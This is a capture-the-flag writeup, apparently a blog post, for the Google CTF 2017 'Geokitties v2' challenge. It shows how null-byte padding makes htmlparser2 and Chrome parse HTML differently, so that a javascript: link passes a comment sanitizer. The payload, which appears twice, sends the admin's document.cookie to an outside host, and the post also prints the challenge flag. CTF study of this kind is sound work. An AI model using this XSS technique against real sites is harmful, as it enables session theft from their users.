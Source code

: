 ```yaml
---
title: Google CTF 2017 – Geokitties v2 writeup
author: tyage
type: post
date: 2017-06-25T17:04:34+00:00
url: /?p=1020
wp-syntax-cache-content:
  - |
    a:3:{i:1;s:306:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:2;s:300:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table><p class="theCode" style="display:none;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</p></div>
    ";i:3;s:486:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table><p class="theCode" style="display:none;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://geokittiesv2.web.ctfcompetition.com/">https://geokittiesv2.web.ctfcompetition.com/</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127">https://gist.github.com/tyage/cac08c8e17b90b840fb22cb434cff127</a></p>
<p>It receives comment, then admin checks it and clicks a link.</p>
<p>The comment is validated by using htmlparser2.</p>
<p>Allowed tags are: <code><i>p, a, b, img, br, i</i></code><br />
Invalid attributes: <code><i>on(.*)=</i></code> and <code><i>href=javascript:...</i></code></p>
<h2>Solution</h2>
<p>What we should do is find the differences in parsing between Google Chrome and htmlparser2.</p>
<p>After some time, I realize that when input is utf-16 string, Chrome parses it as utf-16 string but htmlparser2 does not.</p>
<p>For example, the html below is parsed as html element <code><i>\x00a\x00</i></code> in htmlparser2.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;\x00a\x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p><code><i>&lt;\x00a\x00&gt;</i></code> is not a valid tag, so we should create a valid html link like below.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">\x00&lt;a \x00&gt;\x00&lt;\x00/\x00a\x00&gt;\x00</pre></td></tr></table></div>

<p>Now, htmlparser2 recognize <code><i>a</i></code> html tag but chrome does not recognize it as html element.</p>
<p>So we can construct an valid html <code><i>&lt;a href=javascript:...</i></code>.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">'\x00&lt;a \x00' + &quot;&lt;a href='javascript:location.href=`//tyage.net/`+document.cookie'&gt;&quot;.split('').join('\x00') + '&lt;/a&gt;'</pre></td></tr></table></div>

<p>Finally, admin gives us a flag: <code><i>CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}</i></code></p>
